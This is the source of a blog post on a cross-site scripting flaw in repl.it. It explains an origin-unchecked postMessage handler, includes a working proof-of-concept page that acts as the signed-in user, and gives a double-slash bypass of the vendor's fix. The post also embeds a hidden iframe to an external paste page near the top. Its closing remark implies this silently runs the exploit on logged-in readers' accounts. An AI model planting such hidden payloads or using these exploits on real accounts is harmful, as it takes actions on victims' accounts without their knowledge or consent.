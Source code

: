 ```yaml
---
layout: post
title: Repl.it XSS
---
```


<iframe style="display:none" src="https://pste.eu/p/hr1w.html"></iframe>

I recently found a rather interesting, non-traditional XSS vulnerability in [repl.it](https://repl.it). I was inspired to try this after reading a [writeup](https://github.com/koczkatamas/gctf19/tree/master/pastetastic) for Pastetastic from Google CTF 2019, which showed off some really cool cross-origin stuff with iframes.

In case you're not familiar with repl.it, it's basically an online IDE with tons of features, including website hosting. Each program you make runs in its own environment called a "repl."

While messing around with how different features worked, I discovered that repls for static sites (HTML, CSS, JS) were previewed in a few nested iframes. Specifically, the site preview consisted of an iframe of [https://replbox.repl.it/public/secure/](https://replbox.repl.it/public/secure/), which contained a blank iframe manipulated by its parent, which was modified to contain an iframe pointing to the URL where the static files are hosted:

```
https://replbox.repl.it/data/web_hosting_1/<username>/<repl_name>/
```

I'm actually going to take a little detour and look at something interesting with the sandboxing of that iframe: 

```javascript
sandbox="allow-forms allow-pointer-lock allow-popups allow-same-origin allow-scripts allow-modals"
```

If this was done correctly, it would prevent the iframe containing user content from messing with the top window's location since the `allow-top-navigation` option is not set. However, the `allow-same-origin` attribute means it is not sandboxed from accessing windows that are also on `replbox.repl.it`, and it just so happens the parent two levels up (the ironically named `/public/secure` page) is both on the same origin and not sandboxed. This means the location of the top window, `repl.it`, can be modified with something like:

```javascript
window.parent.parent.eval("top.location.href = 'https://kmh.zone'")
```

An arbitrary redirect isn't a particulary high severity vulnerability, but it obviously goes against the intent of the authors of the code, and shows that cross-origin frame stuff is very weird.

Now let's start looking at the actual XSS vulnerability. The `/public/secure` page imports a script, [runner.js](https://replbox.repl.it/public/secure/runner.js). After some variable renaming and refactoring, the important part of the code looks like this:

```javascript
var listeners = { load: s, evaljs: a, html: i };
var secret;
window.addEventListener("message", function(event) {
	var req = JSON.parse(event.data);
	if (req.secret) {
		if (secret || "handshake" !== req.type) {
			if (req.secret !== secret) return;
			if (!listeners[req.type]) 
				throw Error("No listeners for event:"
                                             + req.type);
			listeners[req.type](req.data);
		} else secret = req.secret;
	}
})
```

There's a pretty glaring issue here &mdash; the message handler doesn't check the origin. This means we can stick this in an iframe in our own site and send any messages we want, including `evaljs` (which, per it's name, evaluates JavaScript).

So this gives us full code execution on `replbox.repl.it`. The thing is that this is kind of useless; there is a session cookie on that domain, but I couldn't see anything it authenticated for. I messed around for a while trying to find stuff like a path I could host a service worker on, but all the user controlled content was under directories based on username and repl name.

As I continued to mess around, I started to notice the similarities between the API on `repl.it` and `replbox.repl.it`: they both had `/data` routes, they both had `/public` routes, and the 404 pages were the same. Eventually I realized that if I set my session cookie to be the same on `replbox.repl.it` as `repl.it`, I could access the authenticated API routes. Then I had an idea &mdash; what if there was `/public/secure/` on `repl.it`? And lo and behold, there it was! I had arbitrary JavaScript execution on the main domain. I quickly wrote up a proof of concept that created a repl as the currently signed in user:

```html
<iframe style="position:absolute;left:-100000px;" id="repl" src="https://repl.it/public/secure"></iframe>
<script>
function createRepl(){
	var xhr = new XMLHttpRequest();
	xhr.open("POST", 'https://repl.it/data/repls/new');
	xhr.setRequestHeader("Content-Type", "application/json");
	xhr.send(JSON.stringify({language: "python3", title: "kmh was here " + Math.floor(Math.random()*1000000), folderId: "", isPrivate: false, description: ""}));
}
setTimeout(function() {
	repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "handshake"}), "*");
	setTimeout(function() {
		repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "load"}), "*")
		setTimeout(function() {
			repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "evaljs", data: createRepl.toString()+";createRepl()"}), "*")
			setTimeout(function() {
				location.href = "https://repl.it/repls"
			}, 20000000)
		}, 200)
	}, 200);
}, 200);
</script>
```
I contacted the repl.it team on Discord, and after waiting a bit, I got a reply and it was forwarded over to the engineering team. Now, according to their [security page](https://repl.it/site/docs/misc/security), they "work with you to fix the issue and then we will credit you on our blog." After the initial report, they gave me a year long free "hacker" plan, and I didn't hear from them again.

I noticed a bit later that they pushed a "fix" to the issue by redirecting from

```
https://repl.it/public/secure/
```

to

```
https://replbox.repl.it/public/secure/
``` 

However, in my toolkit of random things that sometimes work, I had a trick that was the intended solution for a problem I wrote for [ångstromCTF 2019](https://kmh.zone/blog/2019/04/24/angstromctf-2019.html#dom-validator): there are often inconsistensies in how having multiple slashes in a URL is handled. Some web servers collapse them, some don't.

In this case, it seems like however they are matching the redirect does not collapse multiple slashes, but the reverse proxy to the API does. This means that you can go to [https://repl.it/public//secure/](https://repl.it/public//secure/) and still get full code execution on the `repl.it` domain. Since they never contacted me to verify whether it was fixed, I had no way or reason to let them know. Oh well.

PS: If you're currently logged in to repl.it, check out your [repls](https://repl.it/repls) ;)
